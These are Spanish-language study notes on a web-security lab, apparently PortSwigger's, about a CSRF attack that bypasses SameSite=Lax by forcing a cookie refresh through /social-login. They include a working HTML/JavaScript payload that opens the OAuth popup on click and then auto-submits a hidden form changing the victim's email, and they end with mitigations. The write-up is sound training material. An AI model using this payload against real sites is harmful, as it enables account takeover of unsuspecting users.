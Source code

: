 En esta clase explotamos una vulnerabilidad de CSRF en combinación con la política SameSite=Lax. Aunque el navegador no envía cookies en peticiones POST cruzadas por defecto, si se logra refrescar la sesión del usuario a través de una redirección automática a /social-login, se emite una nueva cookie sin restricciones SameSite explícitas.

Sin embargo, esta redirección necesita interacción manual para evitar el bloqueo del popup. Por eso, el exploit incluye un mensaje para que el usuario haga clic, abriendo así la ventana y forzando el flujo OAuth. Una vez completado el proceso, tras una breve pausa, se lanza el ataque CSRF.

Este escenario demuestra cómo una mala implementación del control de sesiones unida a SameSite por defecto puede dejar aplicaciones vulnerables a ataques que dependen únicamente de ingeniería social y sincronización temporal.

Solucion
En este laboratorio vemos que tiene un refresh de cookies por lo cual se actualizan
un ejemplo seria que cuando nos logeamos y despues nos vamos a la pagina principal nos deslogeamos  y le damos my account en ese momento podemos ver que nos lleva a social-login
![Pasted_image_20250723225130.png](/Imagenes/Pasted_image_20250723225130.png)y despues de esperar unos cuantos segundos nos lleva a otra direccion
![Pasted_image_20250723225307.png](/Imagenes/Pasted_image_20250723225307.png)
Por lo cual podemos realizar un nuevo payload

(
<form method="POST" action="https://0a39008703f53aeaa37bee4e008d005b.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a39008703f53aeaa37bee4e008d005b.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
)

**Resumen del payload:**

Este _payload_ es un ataque **CSRF** que intenta cambiar el correo de una cuenta autenticada sin que el usuario lo note.

🔹 Al hacer clic en la página:

1. Se abre una nueva pestaña (posiblemente para distraer).
    
2. Después de 5 segundos, se envía automáticamente un formulario oculto que cambia el correo del usuario a `pwned@portswigger.net`.
    

🔹 Si el usuario está logueado, el servidor acepta el cambio creyendo que es legítimo.

🛡️ **Mitigación:** Usar tokens CSRF, verificar el origen de la petición y configurar cookies con `SameSite`.